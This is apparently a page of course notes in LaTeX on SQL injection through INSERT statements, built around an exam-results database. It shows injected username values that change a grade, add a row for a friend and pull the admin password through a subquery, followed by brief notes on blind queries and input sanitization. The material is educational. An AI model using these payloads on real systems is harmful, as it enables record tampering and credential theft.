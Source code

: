 \documentclass{article}
\begin{document}
\subsubsection{Manipulating INSERTs}
Assume we have the following schema to track exam results:
\begin{lstlisting}[language=SQL]
CREATE TABLE users (
	id INTEGER PRIMARY KEY,
	user VARCHAR(128),
	password VARCHAR(128),
	result VARCHAR
);

CREATE TABLE results (
	id INTEGER PRIMARY KEY,
	username VARCHAR(128),
	grade VARCHAR
);
\end{lstlisting}
And a single query in the server allowing to give 18 to a custom user (having the username as a parameter):
\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', '18');	
\end{lstlisting}
I could easly get 30L by inserting "matteosecco', '30L'),--":
\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', '30L');--', '18');	
\end{lstlisting}
I could also give 30L to a friend of mine:
\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', '30L'),(NULL, 'gianlucaguidotti','30L');--', '18');	
\end{lstlisting}
Or I could use it to gain access to privileged data (assuming I have some way to read the data I'm inserting):

\begin{lstlisting}[language=SQL]
INSERT INTO results VALUES (NULL, 'matteosecco', (SELECT password from USERS where user='admin')),--', '18');	
\end{lstlisting}
\subsubsection{Blind queries} Some queries, such as a login one, do not display the result to the user. We can infer the result, or some of its properties, by the resulting behaviour.
\subsubsection{Defending}
\paragraph{Input sanitization} validation and filtering of the user input
\end{document}
